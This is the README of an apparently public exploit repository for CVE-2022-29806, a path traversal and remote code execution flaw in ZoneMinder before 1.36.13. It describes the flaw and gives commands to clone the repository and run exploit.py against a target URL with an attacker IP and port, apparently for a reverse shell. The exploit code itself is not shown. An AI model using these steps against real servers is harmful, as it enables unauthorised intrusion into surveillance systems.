

# CVE-2022-29806
ZoneMinder up to 1.36.12 Language privilege escalation (and RCE)



### Description
A Path Traversal vulnerability in debug log file and default language option in ZoneMinder version before 1.36.13 and 1.37.11 allows attackers to write and execute arbitrary code to achieve remote command execution.

"The proof of concept was tested against ZoneMinder 1.36.4 ubuntu18.04 docker: ZoneMinder/zmdockerfiles but will still applicable up to the latest version 1.36.12"

### Usage

```
git clone https://github.com/OP3R4T0R/CVE-2022-29806
cd CVE-2022-29806
python3 exploit.py
```

```
python3 exploit.py -t <target_url> -ip <attacker_ip> -p <port>
python3 exploit.py -t <target_url> -ip <attacker-ip> -p <port>
```

#### Requirements

```
pip3 install beautifulsoup4
pip3 install argparse
pip3 install requests
```

### Credits
[krastanoel](https://krastanoel.com/) discovered the vulnerability. 
